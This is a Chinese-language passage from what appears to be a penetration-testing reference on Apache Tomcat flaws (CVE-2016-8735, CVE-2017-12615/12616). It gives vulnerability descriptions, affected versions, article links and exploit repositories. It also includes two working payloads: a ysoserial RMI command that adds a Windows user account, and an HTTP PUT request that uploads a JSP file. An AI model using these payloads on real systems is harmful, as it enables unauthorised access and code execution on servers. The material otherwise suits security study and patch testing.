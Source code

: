 - 文章
    - [复现tomcat远程代码执行漏洞（CVE-2016-8735） | 回忆飘如雪](http://gv7.me/articles/2018/CVE-2016-8735/)

- POC | Payload | exp
    ```
    java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.48.21110001 Groovy1 "C:\Windows\System32\net.exe user  test 12345 /add "
    ```

**CVE-2017-12615/12616**
- 简介

    2017年9月19日,Apache Tomcat 官方确认并修复了两个高危漏洞,漏洞 CVE 编号:CVE-2017-12615 和 CVE-2017-12616,该漏洞受影响版本为7.0.0-7.0.80之间,官方评级为高危,在一定条件下,攻击者可以利用这两个漏洞,获取用户服务器上 JSP 文件的源代码,或是通过精心构造的攻击请求,向用户服务器上传恶意 JSP 文件,通过上传的 JSP 文件 ,可在用户服务器上执行任意代码,从而导致数据泄露或获取服务器权限,存在高安全风险.

    - CVE-2017-12615:远程代码执行漏洞

        当 Tomcat 运行在 Windows 操作系统时,且启用了 HTTP PUT 请求方法 (例如,将 readonly 初始化参数由默认值设置为 false) ,攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件,JSP文件中的恶意代码将能被服务器执行.导致服务器上的数据泄露或获取服务器权限.

    - CVE-2017-12616:信息泄露漏洞

        当 Tomcat 中启用了 VirtualDirContext 时,攻击者将能通过发送精心构造的恶意请求,绕过设置的相关安全限制,或是获取到由 VirtualDirContext 提供支持资源服务的 JSP 源代码,从而造成代码信息泄露.

- 漏洞利用条件

    - CVE-2017-12615 漏洞利用需要在 Windows 环境,且需要将 readonly 初始化参数由默认值设置为 false,经过实际测试,Tomcat 7.x 版本内 web.xml 配置文件内默认配置无 readonly 参数,需要手工添加,默认配置条件下不受此漏洞影响.

    - CVE-2017-12616 漏洞需要在 server.xml 文件配置 VirtualDirContext 参数,经过实际测试,Tomcat 7.x 版本内默认配置无 VirtualDirContext 参数,需要手工添加,默认配置条件下不受此漏洞影响.

- 影响版本

    - CVE-2017-12615 影响版本 : Apache Tomcat 7.0.0 ~ 7.0.79 (windows 环境)
    - CVE-2017-12616 影响版本 : Apache Tomcat 7.0.0 ~ 7.0.80

- 文章
    - [CVE-2017-12615/CVE-2017-12616:Tomcat信息泄漏和远程代码执行漏洞分析报告](https://paper.seebug.org/399/)

- POC | Payload | exp

    - [iBearcat/CVE-2017-12615](https://github.com/iBearcat/CVE-2017-12615)
    - [breaktoprotect/CVE-2017-12615](https://github.com/breaktoprotect/CVE-2017-12615)

    ```
    PUT /1.jsp/ HTTP/1.1
    Host: your-ip:8080
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5

    <% out.write("<html><body><h3>[+] JSP upload successfully.</h3></body></html>"); %>
    ```
